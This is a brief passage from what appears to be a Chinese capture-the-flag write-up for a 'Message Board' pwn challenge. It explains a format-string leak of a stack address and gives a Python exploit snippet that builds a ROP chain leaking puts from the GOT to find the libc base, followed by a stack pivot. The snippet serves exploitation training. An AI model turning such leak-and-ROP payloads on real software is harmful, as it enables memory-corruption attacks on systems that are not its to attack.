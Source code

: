 ‍

### 西湖论剑-Message Board

[![](assets/1701606597-7b0511c5591ff496bc5f2ac0f3851c06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170501-39ad1724-845f-1.png)

[![](assets/1701606597-960578ddacb1d2dc09f71cc5b62d9588.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170505-3ba9e958-845f-1.png)

格式字符串漏洞获取栈地址，下一处读入利用栈地址获取libc基址

```plain
payload = p64(stack_addr+0xb0+0x28) #rbp
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)
```
